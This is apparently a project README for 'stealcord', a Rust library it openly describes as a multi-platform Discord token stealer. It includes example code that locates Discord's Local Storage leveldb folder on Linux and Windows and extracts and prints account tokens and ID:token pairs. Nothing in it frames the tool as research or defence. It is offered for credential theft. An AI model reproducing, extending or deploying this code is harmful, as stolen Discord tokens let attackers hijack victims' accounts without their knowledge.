 # stealcord

Multi platform Discord token stealer library written in Rust.

## Example

```rust
// Import necessary libraries
use simple_home_dir::*;
use stealcord::{get_token, get_tokens};

fn main() {
    // Set path to Discord token storage
    let path = home_dir().unwrap().join(if cfg!(target_os = "linux") {
        // Linux
        ".config/discord/Local Storage/leveldb/"
    } else {
        // Windows
        "\\AppData\\Roaming\\Discord\\Local Storage\\leveldb"
    });

    // Get only token
    if let Ok(token) = get_token(path.clone()) {
        // Print token
        println!("{token}")
    } else {
        // Print error message
        panic!("Error getting token")
    }

    // Get ID : Token
    if let Ok(tokens) = get_tokens(path.clone()) {
        // Print tokens
        println!("{tokens}")
    } else {
        // Print error message
        panic!("Error getting tokens")
    }
}
```

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.